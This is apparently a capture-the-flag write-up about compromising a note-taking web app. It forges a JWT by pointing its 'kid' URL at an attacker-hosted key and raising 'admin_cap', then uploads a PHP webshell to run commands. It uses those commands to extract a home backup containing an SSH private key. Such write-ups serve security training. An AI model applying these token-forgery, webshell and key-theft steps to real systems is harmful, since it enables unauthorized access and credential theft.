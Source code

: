The website is an application to take notes. We can self register a user. We notice that:

* There is authorization control to access the notes but we need to know the UUID to access them.
* The first note we upload start with the number 5. Being on a VIP box means that there is already existing notes.
* The authentication is using a [JWT token](https://medium.com/swlh/hacking-json-web-tokens-jwts-9122efe91e4a)

Our [JWT token](https://medium.com/swlh/hacking-json-web-tokens-jwts-9122efe91e4a) has the following values:

    :::text
    eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9
    {"typ":"JWT","alg":"RS256","kid":"http://localhost:7070/privKey.key"}

    eyJ1c2VybmFtZSI6InJyIiwiZW1haWwiOiJyQHIuY29tIiwiYWRtaW5fY2FwIjowfQ
    {"username":"rr","email":"r@r.com","admin_cap":0}

A few interesting point about this JWT token:

1. the kid (Key ID) in the header is an URL
2. there is a `admin_cap` parameter in the JWT payload.

We host a simple HTTP server using python3 and change the KID value by our IP
address and port and got a ping on it (with a 404).

We use [ssh-keygen to generate a RS256 private key](https://gist.github.com/ygotthilf/baa58da5c3dd1f69fae9)
and we make it available using the python server.

    :::text
    ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key

We use [https://jwt.io/](https://jwt.io/) to generate a new token with the
`admin_cap` parameter to `1` and sign it using our private key.

By replacing our token with the new one we can now access the [admin panel](http://10.129.82.59/admin)
an view all the notes including the ones from the "admin" user saying that PHP
files are being executed.

We use the admin panel to upload `simple-backdoor.php` (located in
`/usr/share/webshells/php` on Kali Linux).
We can now execute command on the system using our webshell.

We found a "home.tar.gz" archive in the `/backups/` folder.

    :::text
    ls%20../../backups
    apt.extended_states.0
    apt.extended_states.1.gz
    apt.extended_states.2.gz
    home.tar.gz

We copy the archive to our parent directory and extract it.

    :::text
    cmd=cp%20../../backups/home.tar.gz%20../
    cmd=tar%20xvf%20../home.tar.gz%20-C%20../
    home/
    home/noah/
    home/noah/.bash_logout
    home/noah/.cache/
    home/noah/.cache/motd.legal-displayed
    home/noah/.gnupg/
    home/noah/.gnupg/private-keys-v1.d/
    home/noah/.bashrc
    home/noah/.profile
    home/noah/.ssh/
    home/noah/.ssh/id_rsa
    home/noah/.ssh/authorized_keys